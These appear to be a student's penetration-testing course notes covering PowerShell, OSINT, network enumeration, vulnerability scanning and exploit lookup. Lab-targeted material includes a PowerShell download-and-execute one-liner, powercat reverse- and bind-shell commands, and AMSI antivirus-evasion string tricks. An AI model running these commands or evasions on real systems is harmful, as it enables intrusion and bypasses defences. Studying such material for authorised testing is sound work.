     $b64str = "grGC8YLJgr+CzQ=="
     $b64dec = [Convert]::FromBase64String($b64str) //to 
     $byte2 = ([System.Text.Encoding]::Default).GetString($b64dec)
     #+end_quote 
    
*** basic syntax
**** $() //Subexpression operator 
     #+begin_quote
     Returns the result of one or more statements. For a single result, returns a scalar. For multiple results, returns an array. Use this when you want to use an expression within another expression.
     #+end_quote
     + ~Folder list: $((dir c:\ -dir).Name -join ', ')~ //Folder list: Program Files, Program Files (x86), Users, Windows

**** @() //Array subexpression operator
     #+begin_quote
     Returns the result of one or more statements as an array. If there is only one item, the array has only one member.
     #+end_quote
     + ~@(Get-CimInstance win32_logicalDisk)~

**** & //Call operator
     #+begin_quote
     Runs a command, script, or script block.
     #+end_quote 

     + ~$c = "get-executionpolicy"; & $c~
     + ~& "./file name with spaces.ps1"~ //invoke the .ps1 script

**** //script block
     #+begin_quote
     A script block returns the output of all the commands in the script block, either as a single object or as an array. 
     You can also specify a return value using the return keyword. The return keyword does not affect or suppress other output returned from your script block. However, the return keyword exits the script block at that line.
     #+end_quote

     + //example:
       #+begin_src
       $sb = {
           param($p1,$p2)
           $OFS=','
           "p1 is $p1, p2 is $p2, rest of args: $args"
       }
       Invoke-Command $sb -ArgumentList 1,2,3,4 //p1 is 1, p2 is 2, rest of args: 3,4 
       &$sb -p2 2 -p1 1 3 //p1 is 1, p2 is 2, rest of args: 3
       &$sb 2 1 3 //p1 is 2, p2 is 1, rest of args: 3
       #+end_src 

**** .. //range operator
     + ~1..10~
     + ~foreach ($a in 1..$max) {Write-Host $a}~
     + ~'a'..'f'~

**** $_ //delay bind operator, or "this" in foreach TODO
     + ~10..1~
     + ~5..-5 | ForEach-Object {Write-Output $_}~

**** , //comma operator
     #+begin_quote
     As a binary operator, the comma creates an array or appends to the array being created. In expression mode, as a unary operator, the comma creates an array with just one member. Place the comma before the member.
     #+end_quote

     + ~$myArray = 1,2,3~
     + ~$SingleArray = ,1~
     + ~Write-Output (,1)[0]~

**** ? //shortcut to where
     + ~1...5 | ? { $_ % 2 }~ //1 to .5 gives 1 and 0; foreach, if [ (this % 2) -ne 0 ], print this; 
      
**** -f //format operator
     #+begin_quote
     Formats strings by using the format method of string objects. Enter the format string on the left side of the operator and the objects to be formatted on the right side of the operator.
     #+end_quote
     
     + ~"{0} {1,-10} {2:N}" -f 1,"hello",[math]::pi~

*** powershell DownloadFile && *DownloadString*
    + ~powershell -c "(new-object System.Net.WebClient).DownloadFile('http://127.0.0.1/wget.exe','./wget.exe')"~
    + ~iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')~ //load the remote script during the session only 
      
*** powerhsell xxd
    Format-Hex -Path <path> -Count <firstNBytesToShow>

*** @Deprecated ~powercat~ //!triggers amsi
    + ~iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')~ //!triggers amsi
    + ~powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1~ //client mode, port 443, ....ps1 as input(file to be transferred)
    + ~powercat -c 10.11.0.4 -p 443 -e cmd.exe~ //reverse shell...but why bother
    + ~powercat -l -p 443 -e cmd.exe~ //bind shell...but why bother

*** amsi evasion (//"this script contains malicious content and has been blocked by your antivirus software")
     + $evil_0 = "amsicontext"
**** evasion 1: concatenation
     + $not_evil = "amsi" + "context"

**** evasion 2: type-casting
     + $not_evil = [char]97 + [char]109 + [char]115 + [char]99
     + use-a-command $not_evil
     + use-a-command ([char]97 + [char]109 + [char]115 + [char]99)

**** evasion 3: variable-insersion
     + $var = "context"
     + $not_evil = "amsi$var"

**** evasion 4: format-string
     + $not_evil = "amsi{0}{1}" -f "con","text"

**** evasion 5: string-replacement
     + $not_evil = "amsiNOTEVIL" -replace "NOTEVIL", "context"

**** use encoding? 
     + simple base64 encoding now still trigger amsi || Windows virus threat protection

** utility tools
*** wireshark //for more filter info check wiki || ref
    + *capture filter*: ~net 192.168.140.0/24~
    + *display filter*: 
      - ip.addr==192.168.140.128
      - ip.src==192.168.140.128
      - ip.dst==192.168.140.128 and tcp.port==1337
      - tcp

*** tcpdump TODO advanced if necessary
    + ~sudo tcpdump -r dump.pcapng | awk -F " " '{print $3}' | sort | uniq -c | head~ //find the top most frequent active address.
    + ~sudo tcpdump -n src host 192.168.140.1 and port 137 -r dump.pcapng~//n for no hostName converting.
    + ~sudo tcpdump -nX dst host 192.168.140.128 -r dump.pcapng~ //X for hex dump.
    + ~sudo tcpdump -nA dst host 192.168.140.128 -r dump.pcapng~ //A for ASCII, useful for capturing web pages.
    + ~sudo tcpdump -nA 'tcp[13]=24'~ //the 14th bytes of tcp header, i.e. the flag, with ACK and PSH on, echo "$((2#00011000))" -> decimal 24, [check man tcpdump]

**** tcpdump capture //maybe verbose
     + ~sudo tcpdump -X -s0 port 80~ //s0 raise the single package-size limit to >256kb.
     + ~sudo tcpdump -i eth0 -n -s0 -vX port 80~ //verbose

*** Fuzzer
    + AFL, libFuzzer, honggfuzz, KAFL(kernel), syscall fuzzer, syzkaller

** TODO practical examples
*** example 1: grap all subdomain, get ip
    1. wget pages html
    2. grab all urls use regex.
       [[./ut_DumpSubdomainFromFile.py]]
    3. loop through the file in the shell:
       #+begin_src sh
while read p; do host $p >> index_hosts_result; done < index_hosts
       #+end_src
     

   //p123 pass
   
*** example2
    //p125 pass
    TODO grep and analyse raw
    
*** example3
    //namp
    *cutycapt*
    
* Book3_Chapter 06 Passive Information Gathering (OSINT) checklist?
   
** osint tools
*** whois enumeration
   #+begin_src bash
whois <domain>
whois <ip>     # more info
   #+end_src
   + whois.arin.net
   + grep name, etc.
     
*** google search pattern(site:<site>, filetype:<php>)
   + ref: [[https://www.exploit-db.com/google-hacking-database][Google Hacking Database]] 
     #+begin_src 
 + ~-filetype:html~ // non-html pages
intitle: "index of" "parent directory"
     #+end_src

*** netcraft
   + [[https://www.netcraft.com/]]
     - Resources, site report
     - Resources, search dns
       
*** recon-ng (may trigger guard.)
   + recon-ng
     - marketplace search <module>
       + [[https://github.com/lanmaster53/recon-ng-marketplace/wiki/API-Keys][open api keys]]
     - marketplace info <module_path>
     - marketplace install <module_path>

     - modules load <module_path>
       + <modulePrompt>> info
     - options set SOURCE megacorpone.com
     - run                                            // results stored as hosts

     - back
     - show
     - show hosts
     - marketplace info recon/hosts-hosts/resolve
     - marketplace install recon/hosts-hosts/resolve
     - modules load recon/hosts-hosts/resolve
     - info
     - run                                             // use stored hosts info
     - show hosts                                      // ip fields are resolved

*** open-source code
   + github, gitlab, sourceforge
     - github:
       + user:<user> filename:users
       + //tools, e.g. Gitrob, Gitleaks
         
*** shodan
   + // interact with and gather info from internet-connected devices.
     
*** security headers
   [[https://securityheaders.com/]]
   + discover missing defensive headers
     
*** ssl server test
   [[https://www.ssllabs.com/ssltest/]]
     
*** pastebin
   [[https://pastebin.com/]]
   + search in it.
     
** user infomation gathering, credential stuffing
*** email, social media account on the official website
    
*** email harvesting
    + theHarvester [[https://github.com/laramies/theHarvester]]
    + theharvester -d megacorpone.com -b google // domain, datasource

*** password dumps that already existed
    + "rockyou" wordlist. [[https://en.wikipedia.org/wiki/RockYou#Data_breach]]
      
** social media tools
*** social searcher
    [[https://www.social-searcher.com/]]
    
** site specific tools
*** twofi
    https://digi.ninja/projects/twofi.php
    + user's twitter feed -> wordlist

*** linkedin2username
    https://github.com/initstring/linkedin2username
    + linkedin -> username list
      
** stackoverflow
   + if an employee ask questions
     
** information gathering frameworks
*** *OSINT Framework*
    https://osintframework.com/
    + *extremely useful*
      
*** TODO maltego
    https://www.paterva.com/buy/maltego-clients.php
    + indispensable tool for large information gathering operations (PWK, p170)

* Book3_Chapter 07 Active Information Gathering
  + port scanning, DNS, SMB, NFS, SMTP, SNMP enumeration.
    
** DNS enumeration TODO recursor
   + dns client <-> DNS recursor <-> DNS infrastructure
   + the DNS infrastructure:
     + cliient:
     #+begin_quote
     The process starts when a hostname is entered into a browser or other application. The browser passes the hostname to the operating system’s DNS client and the operating system then forwards the request to the external DNS server it is configured to use. This first server in the chain is known as the DNS recursor and is responsible for interacting with the DNS infrastructure and returning the results to the DNS client. The DNS recursor contacts one of the servers in the DNS root zone.
     #+end_quote
     + step 1:
     #+begin_quote
     The DNS recursor contacts *one of the servers in the DNS root zone*. The root server then *responds with the address of the server responsible for the zone containing the Top Level Domain (TLD)*.
     #+end_quote
     + step 2:
     #+begin_quote
     Once the DNS recursor receives the address of the TLD DNS server, it *queries it for the address of the authoritative nameserver* for the megacorpone.com domain.
     #+end_quote
     + step 3:
     #+begin_quote
     The authoritative nameserver is the final step in the DNS lookup process and contains the DNS records in a local database known as *the zone file*. It *typically hosts two zones for each domain, the forward lookup zone that is used to find the IP address of a specific hostname and the reverse lookup zone (if configured by the
administrator), which is used to find the hostname of a specific IP address*.
     #+end_quote
     + client:
     #+begin_quote
     Once the DNS recursor provides the DNS client with the IP address for www.megacorpone.com, the browser can contact the correct web server at its IP address and load the webpage.
     #+end_quote
     
*** dns caching
    #+begin_quote
    To improve the performance and reliability of DNS, DNS caching is used to store local copies of DNS records at various stages of the lookup process. It is for this reason that some modern applications, such as web browsers, keep a separate DNS cache. In addition, the local DNS client of the operating system also maintains its own DNS cache along with each of the DNS servers in the lookup process. Domain owners can also control how long a server or client caches a DNS record via the Time To Live (TTL) field of a DNS record.
    #+end_quote
    
*** dns records common types
    + NS - Nameserver records contain the name of the authoritative servers hosting the DNS records for a domain.
    + A - Also known as a host record, the “a record” contains the IP address of a hostname (such as www.megacorpone.com).
    + MX - Mail Exchange records contain the names of the servers responsible for handling email for the domain. A domain can contain multiple MX records.
    + PTR - Pointer Records are used in reverse lookup zones and are used to find the records associated with an IP address.
    + CNAME - Canonical Name Records are used to create aliases for other host records.
    + TXT - Text records can contain any arbitrary data and can be used for various purposes, such as domain ownership verification.
      
*** ~host~, dns forward/reverse lookup
    #+begin_src sh
    host www.megacorpone.com
    host -t mx megacorpone.com
    host -t txt megacorpone.com
    #+end_src
    
**** forward lookup brute force
     + simplified wordlist /usr/share/seclists
       - Much more comprehensive wordlists are available as part of the SecLists project.
       - [[https://github.com/danielmiessler/SecLists]]
       - sudo apt install seclists
     + usage: 
     #+begin_src sh
     cat list.txt    # www ftp mail own paoxy router
     for ip in $(cat list.txt); do host $ip.megacorpone.com; done
     #+end_src
     
**** reverse lookup brute force
     #+begin_quote
     If the DNS administrator of megacorpone.com configured PTR 191 records for the domain, we could scan the approximate range with reverse lookups to request the hostname for each IP.
     #+end_quote
     + usage:
     #+begin_src sh
     for ip in $(seq 50 100); do host 38.100.193.$ip; done | grep -v "not found"
     #+end_src
     
*** dns zone transfers
    #+begin_quote
    A zone transfer is basically a database replication between related DNS servers in which the zone file is copied from a master DNS server to a slave server. The zone file contains a list of all the DNS names configured for that zone. Zone transfers should only be allowed to authorized slave DNS servers but many administrators misconfigure their DNS servers, and in these cases, anyone asking for a copy of the DNS server zone will usually receive one.
    #+end_quote
    + host -l         # list zone, to attemp the zone transfers
    + useage:         # nameserver is already knowned in the ~host~ result
      #+begin_src sh
      # host -l megacorpone.com <nameserver>
      host -l megacorpone.com ns2.megacorpone.com     # success if the nameserver allows the transfer
      #+end_src
    + TODO test script
  
*** *dns enumeration tools*
   
**** DNSRecon (.py script) TODO try zone transfer
    + usage:
      #+begin_src sh
      dnsrecon -d megacorpone.com -t axfr                 # -d <domainname> -t <typeOfEnumeration>
      dnsrecon -d megacorpone.com -D ~/list.txt -t brt    # forward lookup brute force equivalence
      #+end_src
      
**** DNSenum
    + usage:
      #+begin_src sh
      dnsenum zonetransfer.me
      #+end_src

** port scanning
   + steps:
     1. find possible web servers by scanning 80 443 on the network.
     2. run full port scan on them in the background.
        
*** basic, netcat
    
**** netcat, tcp
    #+begin_src sh
    nc -nvv -w 1 -z 10.11.1.220 3388-3390
    #+end_src
    + process: (handshake if success)
      - open: [SYN] -> [SYN, ACK] -> [FIN, ACK]
      - close: [SYN] -> [RST, ACK]

**** netcat, udp
     #+begin_src sh
     nc -nv -u -z -w 1 10.11.1.115 160-162
     #+end_src
     + process: (server response with ICMP destination unreachable if closed, unreliable)
       - filtered by a firewall or device use none standard implementation
         
*** nmap 
    + sudo if need raw sockets
      #+begin_quote
Raw sockets allow for surgical manipulation of TCP and UDP packets.
      #+end_quote
      
**** iptables, monitoring traffic
     + usage:
     #+begin_src sh
     sudo iptables -I INPUT 1 -s 10.11.1.220 -j ACCEPT
     sudo iptables -I INPUT 1 -s 10.11.1.220 -j ACCEPT
       # --insert <chain>, <rulenum> 1 for topmost, [!] --source <ip>, --jump <rule>(ACCEPT DROP RETURN)
     sudo iptables -I OUTPUT 1 -d 10.11.1.220 -j ACCEPT
     sudo iptables -Z [chain[rulenum]]
       # zero the counters 7 
     sudo iptables -vn -L
       # --numeric, --list [chain], list all rules [of a chain]
     #+end_src
     
**** nmap tcp scan
     + nmap <ip>            # default 1000-port scan, 78KB
     + nmap -p 1-65535 <ip> # all *tcp* ports, 4MB 
     + sudo nmap -sS <ip>   # (not so) stealth/syn scan, 
     + nmap -sT <ip>        # TCP connect scan, default
       - # the connect scan perform TCP handshakes.
       - # hence much slower than -sS since per result only available after the handshake is complete.

**** nmap udp scan
    + sudo nmap -sU 10.11.1.115
      - # for normal ports: use the "ICMP port unreachable" method
      - # for common ports:
        #+begin_quote
        such as port 161, which is used by SNMP, it will send a protocol-specific SNMP packet in an attempt to get a response from an application bound to that port.
        #+end_quote

    + sudo nmap -sS -sU 10.11.1.115  # tcp && udp scan

**** network sweeping
     + usage:
     #+begin_src sh
nmap -sn 10.11.1.1-254                        # (no port scan)
nmap -v -sn 10.11.1.1-254 -oG ping-sweep.txt  # greppable output
grep Up ping-sweep.txt | cut -d " " -f 2

nmap -p 80 10.11.1.1-254 -oG web-sweep.txt
nmap -sT -A --top-ports=20 10.11.1.1-254 -oG top-port-sweep.txt 
  # A for enabling OS detection, version detection, script scanning and traceroute
  # the top ports are defined in: /usr/share/nmap/nmap-services
     #+end_src

**** TODO more host discovery technique
     https://nmap.org/book/man-host-discovery.html

**** os fingerprinting
     #+begin_quote
     Nmap has a built-in feature called OS fingerprinting, which can be enabled with the *-O* option. This feature attempts to guess the target’s operating system by inspecting returned packets. This is possible because operating systems often have slightly different implementations of the TCP/IP stack (such as varying default TTL values and TCP window sizes) and these slight variances create a fingerprint that Nmap can often identify.
     #+end_quote

     + usage:
     #+begin_src sh
sudo nmap -O 10.11.1.220
     #+end_src
     
**** banner grabbing/service enumeration
     + usage
     #+begin_src sh
nmap -sV -sS -A 10.11.1.220    # -sV version detection, or banners
     #+end_src
     + TODO track size

**** nmap scripting engine (NSE)
     + /usr/share/nmap/scripts
     + usage:
     #+begin_src sh
nmap 10.11.1.220 --script=smb-os-discovery                   # base usage
nmap --script=dns-zone-transfer -p 53 ns2.megacorpone.com    # zone transfer
nmap --script-help dns-zone-transfer                         # script help
     #+end_src
     
***** TODO execise
      + list neighbours
      + -sn and find server
      + nse, smb-os...

      + zone transfer on -sn result | host
      + nse ip

      + wireshark, udp scan packet
      + wireshark, SYN vs connect scan packet
        
*** masscan
    #+begin_quote
Masscan is arguably the fastest port scanner; it can scan the entire Internet in about 6 minutes, transmitting an astounding 10 million packets per second! While it was originally designed to scan the entire Internet, it can easily handle a class A or B subnet, which is a more suitable target range during a penetration test.
    #+end_quote
    + usage:
    #+begin_src sh
sudo masscan -p80 10.0.0.0/8                                 # base usage
sudo masscan -p80 10.11.1.0/24 --rate=1000 -e tap0 --router-ip 10.11.0.1
  # rate of package transmission, -e <interface>, --router-ip <gateway>
    #+end_src
    
** TODO server message block (SMB) enumeration (Windows only?)
   + about
     - bad bug records due to "complex implementation and open nature" (PWK, p194)
     - [[http://markgamache.blogspot.ca/2013/01/ntlm-challenge-response-is-100-broken.html]]
     - That said, the SMB protocol has also been updated and improved in parallel with Windows
Operating Systems releases (PWK, p194).
     
*** scanning for the NetBIOS service
    + about NetBIOS:
      #+begin_quote
The NetBIOS service listens on TCP port 139 as well as several UDP ports. It should be noted that SMB (TCP port 445) and NetBIOS are two separate protocols. NetBIOS is an independent session layer protocol and service that allows computers on a local network to communicate with each other. While modern implementations of SMB can work without NetBIOS, NetBIOS over TCP (NBT) is required for backward compatibility and is often enabled together. For this reason, the enumeration of these two services often goes hand-in-hand. These can be scanned with tools like nmap, using syntax similar to the following:
      #+end_quote

    + src: 
      - with nmap:
      #+begin_src sh
nmap -v -p 139,445 -oG smb.txt 10.11.1.1-254
      #+end_src
      - with more specialized tools:
      #+begin_src sh
sudo nbtscan -r 10.11.1.0/24
  # -r Use local port 137(UDP?) for scans. Win95 boxes respond to this only.
      #+end_src
      
**** TODO with Nmap SMB NSE scripts (practice p197)
     #+begin_src sh
ls -1 /usr/share/nmap/scripts/smb*
nmap -v -p 139, 445 --script=smb-os-discovery 10.11.1.227
nmap -v -p 139,445 --script=smb-vuln-ms08-067 --script-args=unsafe=1 10.11.1.5
     #+end_src
       
** NFS enumeration
   + about NFS:
   #+begin_quote
    Network File System (NFS) is a distributed file system protocol originally developed by Sun Microsystems in 1984. It allows a user on a client computer to access files over a computer network as if they were on locally-mounted storage.
    NFS is often used with UNIX operating systems and is predominantly insecure in its implementation. It can be somewhat difficult to set up securely, so it’s not uncommon to find NFS shares open to the world. This is quite convenient for us as penetration testers, as we might be able to leverage them to collect sensitive information, escalate our privileges, and so forth.
   #+end_quote
   
*** TODO scanning for NFS shares p197
    + the TCP port 111
    #+begin_quote
    Both *Portmapper* and *RPCbind* run on TCP port 111. RPCbind maps RPC services to the ports on which they listen. RPC processes notify rpcbind when they start, registering the ports they are listening on and the RPC program numbers they expect to serve.
    The client system then contacts rpcbind on the server with a particular RPC program number. The
rpcbind service redirects the client to the proper port number (often TCP port 2049) so it can communicate with the requested service. We can scan these ports with nmap using the following syntax:
      #+end_quote
    + src:
      #+begin_src sh
nmap -v -p 111 10.11.1.1-254
nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254
  # nse script, rpcinfo. Connects to portmapper and fetches a list of all registered programs.
      #+end_src

      
*** nmap NFS NSE scripts
    + src:
      #+begin_src sh
ls -1 /usr/share/nmap/scripts/nfs*
nmap -p 111 --script nfs* 10.11.1.72
  # wildcard, run multiple NSE scripts

# Nmap scan report for 10.11.1.72
# PORT
#  STATE SERVICE
# 111/tcp open rpcbind
# | nfs-showmount:
# |_ /home 10.11.0.0/255.255.0.0

sudo mount -o nolock 10.11.1.72:/home /mnt     # -o <mountOptions>, nolock(man 5 nfs)
cd /mnt && ls
      #+end_src
      
** SMTP enumeration : Simple Mail Transport Protocol
   + TODO VRFY && EXPN
   + about SMTP
   #+begin_quote
We can also gather information about a host or network from vulnerable mail servers. The Simple Mail Transport Protocol (SMTP) supports several interesting commands, such as VRFY and EXPN. A VRFY request asks the server to verify an email address, while EXPN asks the server for the membership of a mailing list. These can often be abused to verify existing users on a mail server, which is useful information during a penetration test. 
   #+end_quote
   + src:
     #+begin_src sh
nc -nv 10.11.1.217 25
# (UNKNOWN) [10.11.1.217] 25 (smtp) open
# 220 hotline.localdomain ESMTP Postfix
VRFY root
# 252 2.0.0 root
VRFY idontexist
# 550 5.1.1 <idontexist>: Recipient address rejected: User unknown in local recipient table
     #+end_src
   + TODO [[./ut_SMTPEnumerationAuto.py]]

** SNMP enumeration : Simple Network Management Protocol : UDP 161
   + about SNMP
   #+begin_quote
   Over the years, we have often found that the Simple Network Management Protocol (SNMP) is not well-understood by many network administrators. This often results in SNMP misconfigurations, which can result in significant information leakage.

   SNMP is based on UDP, a simple, stateless protocol, and is therefore susceptible to IP spoofing and replay attacks. In addition, the commonly used SNMP protocols 1, 2, and 2c offer no traffic encryption, meaning that SNMP information and credentials can be easily intercepted over a local network. Traditional SNMP protocols also have weak authentication schemes and are commonly left configured with default public and private community strings.
   #+end_quote

*** the SNMP MIB tree : Management Information Base 
    + about MIB
    #+begin_quote
The SNMP Management Information Base (MIB) is a database containing information usually related to network management. The database is organized like a tree, where branches represent different organizations or network functions. The leaves of the tree (final endpoints) correspond to specific variable values that can then be accessed, and probed, by an external user.
    #+end_quote
    + more info:
    [[https://www.ibm.com/support/knowledgecenter/ssw_aix_71/commprogramming/mib.html]]
    
**** find SNMP hosts
    + src:
    #+begin_src sh
sudo nmap -sU --open -p 161 10.11.1.1-254 -oG open-snmp.txt
    #+end_src
    + alternative tools, onesixtyone : fast and simple SNMP scanner
      #+begin_quote
which will attempt a brute force attack against a list of IP addresses. First we must build text files containing community strings and the IP addresses we wish to scan:
      #+end_quote
      - src:
      #+begin_src sh
echo public > community
echo private >> community
echo manager >> community
for ip in $(seq 1 254); do echo 10.11.1.$ip; done > ips
onesixtyone -c community -i ips
  # -c <communityfile>, -i <ipFile>
      #+end_src
      
**** TODO (practice) Windows SNMP enumeration : tool : snmpwalk
     #+begin_quote
     We can probe and query SNMP values using a tool such as snmpwalk provided we at least know the SNMP read-only community string, which in most cases is “public”.
     #+end_quote

     + src:
     #+begin_src sh
snmpwalk -c public -v1 -t 10 10.11.1.14
  # -c <communityStr>, -v <version>, -t <timeout>, <ip>, <MIBString>
snmpwalk -c public -v1 -t 10 10.11.1.14 10.11.1.14 1.3.6.1.4.1.77.1.2.25
  # enumeration  windows users : svUserTable
snmpwalk -c public -v1 10.11.1.73 1.3.6.1.2.1.25.4.2.1.2
  # Enumerating Running Windows Processes : hrSWRunEntry
snmpwalk -c public -v1 10.11.1.14 1.3.6.1.2.1.6.13.1.3
  # Enumerating Open TCP Ports : tcpConnEntry
snmpwalk -c public -v1 10.11.1.50 1.3.6.1.2.1.25.6.3.1.2
  # Enumerating Installed Software : hrSWInstalledName
     #+end_src
     
TODO
+ how to know what --script-args
  
* Book3_Chapter 08 Vulnerability Scanning
  + // overview of automated scanning, major tools : Nessus && Nmap
    
** Vulnerability Scanning Overview and Considerations
   
*** How Vulnerability Scanners Work
    1. Detect if a target is up and running.
    2. Conduct a full or partial port scan, depending on the configuration.
    3. Identify the operating system using common fingerprinting techniques.
    4. Attempt to identify running services with common techniques such as banner grabbing, service behavior identification, or file discovery.
    5. Execute a *signature-matching process* to discover vulnerabilities.
    #+begin_quote
    As a part of this signature-matching process, many scanners use banner grabbing, a simple technique where text strings generated during an initial interaction with an application are obtained and analyzed. Some applications generate very specific banners, such as OpenSSH, which may return “SSH-2.0-OpenSSH_7.9p1 Debian-10”, allowing us to precisely pinpoint the application version, while others, such as Apache Tomcat versions 4.1.x to 8.0.x, return a generic HTTP header of “Apache-Coyote/1.1”. 

    Most automated scanners inspect a wide variety of other target information during the signature-matching process. Nevertheless, even a strong signature match does not guarantee the presence of a vulnerability. This means automated scanners can generate quite a few false positives and by contrast, false negatives, in which a vulnerability is overlooked because of a signature mismatch. False positives and negatives can also occur because of backporting, in which package maintainers "roll back" software security patches to older versions. Backporting may result in the scanner flagging software as a vulnerable version when the vulnerability has actually been repaired.
    #+end_quote
    
*** know the target
    + the traffic volume. Throttle scan speed && use timeout at first, increace speed till reaching quality-speed balance.
    + network position.
      #+begin_quote
      Finally, our network positioning can affect target visibility. For example, a typical vulnerability scanner will attempt to discover targets with a ping sweep or ARP scan.224 However, Internet connected targets would not be able to receive ARP traffic from external subnets and may block ICMP (ping) requests,225 meaning the scanner could miss the targets entirely if it has been configured to rely solely on these discovery options.
      #+end_quote
    
*** authenticated vs unauthenticated scanning
    
**** authenticated scan
     #+begin_quote
     Authenticated scans generate a wealth of additional information and produce more accurate results at the expense of a longer scan time. Although an authenticated scan can be used during a penetration test (using discovered credentials, for example), it is more commonly used during the patch management process.
     #+end_quote
    + linux: ssh login as a user
    + windows:
      - Windows Management Instrumentation (WMI) + a domain/local account with remote management permissions.
        [[https://docs.microsoft.com/en-us/windows/win32/wmisdk/about-wmi]]
      - Other factors that may block authentication:
        + User Account Control (UAC):
          [[https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-
account-control-works]]
        + firewall settings
      #+begin_quote
      ...once access is properly configured, most scanners analyze the *system configuration, registry settings, and application and system patch levels*. They also review *files in the Program Files directories* as well as *all supporting executables and DLLs in the Windows folder*, all in an attempt to detect potentially vulnerable software.
      #+end_quote

** Vulnerability Scanning with Nessus
   #+begin_quote
   ...a popular vulnerability scanner that supports a staggering 130,000 plugins228 (vulnerability checks) at the time of this writing. While originally developed as an open source application, in 2005 the source was closed. The change to a closed source model resulted in forks of the open source project, and to the release of OpenVAS. There are many commercial and open source vulnerability scanners with various strengths and weaknesses.
   However, Nessus is a quite capable industry standard, and the free “Essentials” version allows us to scan up to 16 IPs. It gives us insight into how to use the full commercial version without time limits or other constraints. The overall concepts discussed in this section will generally apply to just about any other commercial scanner as well.
   #+end_quote
   + pass? p210~
   + TODO wireshark the Nessus traffic, unathenticated && authenticated.
   + ~p236
     
** Vulnerability Scanning with Nmap : NSE
   #+begin_quote
   As an alternative to Nessus, we can also use the Nmap Scripting Engine (NSE) to perform automated vulnerability scans. While NSE is not a full-fledged vulnerability scanner, it does have a respectable library of scripts that can be used to detect and validate vulnerabilities. NSE scripts are written in Lua and range in functionality from brute force and authentication to detecting and exploiting vulnerabilities. For these purposes we will focus on the scripts in the “vuln” and “exploit” categories, as the former detects a vulnerability and the latter attempts to exploit it.
   However, there is overlap between these categories and some “vuln” scripts may essentially run stripped-down exploits. For this reason, scripts are also further categorized as “safe” or “intrusive” and we should take great care when executing the latter because they may crash a remote service or take down the target.
   #+end_quote
   + src:
     #+begin_src sh
cd /usr/share/nmap/scripts/
head -n 5 script.db                           # the index to all the scripts
cat script.db | grep '"vuln"\|"exploit"'
sudo nmap --script vuln 10.11.1.10
  # run all scripts in the “vuln” category
     #+end_src

* TODO Book3_Chapter 10 Buffer Overflow
** basic
   + ? x64 memory range (low 0x00000000 -> high 0x7FFFFFFF)
   + the stack, LIFO, the return address at bottom.
     - an example *stack frame*:
       | function A return address |   |
       | input param 1             |   |
       | input param 2             |   |
       
*** the x86 register and their nomenclature
    + EAX = (. + AX); AX = (AH + AL)
      - EAX: extra, 32-bit register
      - AX(in EAX): lower 16-bit register
      - AH(in AX): higher 8-bit register
      - AL(in AX): lower 8-bit register
    + the table of x86 register structure
      | 32-bit | lower 16 | higher 8 | lower 8 |
      |--------+----------+----------+---------|
      | EAX    | AX       | AH       | AL      |
      | EBX    | BX       | BH       | BL      |
      | ECX    | CX       | CH       | CL      |
      | EDX    | DX       | DH       | DL      |
      | ESI    | SI       | -        | -       |
      | EDI    | DI       | -        | -       |
      | EBP    | BP       | -        | -       |
      | ESP    | SP       | -        | -       |
      | EIP    | IP       | -        | -       |

      + E[ABCD]X, ESI, EDI: often used as general purpose registers to store temporary data, [[https://wiki.skullsecurity.org/Registers][more info on register (Skull Security, 2012)]] but the primary purpose are as below (quoted OSCP p348):
        - EAX (accumulator): *Arithmetical and logical* instructions
        - EBX (base): Base pointer of the *data section*.
        - ECX (counter): Loop, shift, and rotation counter
        - EDX (data): I/O port addressing, multiplication, and division
        - ESI (source index): Pointer addressing of data and source in string copy operations
        - EDI (destination index): Pointer addressing of data and destination in string copy operations
        - *ESP* (stack pointer): most recently referenced location on the stack(pointer to the *(downmost if stack grow downwards)/lower address* of the stack)
        - *EBP* (base pointer): points to the *base/topmost if stack grows downwards/higher address* of the stack when a function is called, provide easy reference for the function to its own stack frame (via offsets). i.e. the (offset 0 pointer)
        - *EIP* (instruction pointer): points to the *next* instruction to be executed.
          
*** TODO the *function prologue*
    + [[https://www.youtube.com/watch?v=75gBFiFtAb8][x86 Assembly Crash Course(by HackUCF)]]
    + ? the $ESP, $EBP, $EIP change, during call -> leave -> ret.
      #+begin_quote
      [ebp+0xc]  ; contains parameter 1, etc
      [ebp+0x8]  ; contains parameter 0
      [ebp+0x4]  ; contains return address
      [ebp]      ; contains prev-EBP      
      #+end_quote
      
*** the example:
    + [[./staceOverflow/so_Basic.c][so_Basic.c]]

      
** DEP, ASLR, and CFG
   + Data Execution Prevention(DEP): raise an exception when code from data pages executed.
   + Address Space Layout Randomization(ASLR): randomize the base address of loaded applications and DLLs on system reboot.
   + Control Flow Guard(CFG): ?




* Book3_Chapter 14 Locating Public Exploits
  
** Online Exploit Resources
*** The Exploit Database
    [[https://www.exploit-db.com/]]
    
*** SecurityFocus Exploit Archives
    [[https://www.securityfocus.com/]]
    
*** Packet Storm
    [[https://packetstormsecurity.com/]]

** Offline Exploit Resources
    //TODO
    
*** SearchSploit
    + src
    #+begin_src sh
sudo apt update && sudo apt install exploitdb
ls /usr/share/exploitdb/
searchsploit [-o]                             # overflow the window
searchsploit remote smb microsoft windows
searchsploit [-x | -m]                        # examine | mirror to $cwd
    #+end_src
    
*** Nmap NSE scripts
    + src
    #+begin_src sh
cd /usr/share/nmap/scripts
grep Exploits *.nse
nmap --script-help=clamav-exec.nse
    #+end_src
    
*** The Browser Exploitation Framework (BeEF)
    + src
    #+begin_src sh
sudo beef-xss                                 # start service
    #+end_src
    + TODO usage

*** the Metasploit Framework
    + src
    #+begin_src sh
sudo msfconsole -q                            # quiet
search ms08_067
search -h                                     # help
    #+end_src
      
*** //TODO p451

* TODO Book3_Chapter 15 fixing the exploit
** TODO bo, manual to find the address quick
** TODO use metasploit and read different ver. of code
   
** TODO the last bit of calloc (memset + padding)
   
** TODO lab c p467
   
* Book3_Chapter 16 file transfers
  
** summary
   + src:
   #+begin_src sh
python -m SimpleHTTPServer 80 # python 2
python -m http.server [-h] [--bind IP] [--directory DIR] [PORT]
  # python 3
  # curl -o o.sh 10.10.0.1/o.sh
  # axel -a -n 10 -o o.pdf 10.10.0.1/o.pdf
   #+end_src
  
** Considerations and Preparations
*** Dangers of Transferring Attack Tools
    + backdoor exploited by 3rd party
    + antivirus scan

